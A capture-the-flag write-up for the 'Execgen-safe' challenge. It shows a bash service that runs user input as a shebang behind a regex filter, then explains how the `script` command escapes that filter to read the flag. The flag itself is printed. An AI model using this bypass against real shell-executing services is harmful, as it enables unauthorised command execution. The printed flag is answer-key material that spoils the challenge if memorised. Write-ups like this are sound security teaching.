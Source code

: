 # Execgen-safe writeup

## Task

Execgen with input character limit.

```bash
#!/bin/bash
IFS=''
regex='^[A-Za-z0-9 /]*$'

banner='
___________                      ________
\_   _____/__  ___ ____   ____  /  _____/  ____   ____
 |    __)_\  \/  // __ \_/ ___\/   \  ____/ __ \ /    \
 |        \>    <\  ___/\  \___\    \_\  \  ___/|   |  \
/_______  /__/\_ \\___  >\___  >\______  /\___  >___|  /
        \/      \/    \/     \/        \/     \/     \/ (safe version)
Create your script: '

echo -n $banner

# create the script, easy!
read -r script

# for your safety
if ! [[ $script =~ $regex ]]; then
  echo "Hacker is not allowed to use the tool!"
  exit 0
fi

# oh, don't forget to add watermark!
script+='(created by execgen)'

# run the script for you, sweet!
tmp=$(mktemp)
echo "#!$script" > "$tmp"
chmod 0755 "$tmp"
out=$("$tmp")
echo "$out"
rm "$tmp"

```

## Writeup

The main idea of the solution is inspired from [here](https://hackmd.io/@dalun/rkmKeDd5s#Revenge).

### Solution

I'll present the solution straightforwardly.

The main exploit command is [`script`](https://man7.org/linux/man-pages/man1/script.1.html)

Once we entered "script session", the regex check is bypassed. And the I/O history of the bash session is stored in certain file.

### POC

Here I provide two POC.

#### cat the history

First connect and type`/bin/script /tmp/`, press enter and we are in script mode. The I/O history is stored in `/tmp/(created by execgen)`

Then we type `cat home/chal/flag`, press enter and press `ctrl + c` to leave session.

Finally we connect back with command `/bin/cat /tmp/` and we get the flag.

#### Make reverse shell great again!

The check is disabled in the script mode, so we can execute everything we want, including reverse shell. And the rest is easy.

```
chal@91d229b36ac7:/$ cat home/chal/flag
cat home/chal/flag
FLAG{7h3_5p4c3_i5_l1m1t3d}
chal@91d229b36ac7:/$                                                                              

```

### Notes

1. The connection session is about 30 seconds so we must be quick(?)

2. Cool `script` command.

### Flag

`FLAG{7h3_5p4c3_i5_l1m1t3d}`

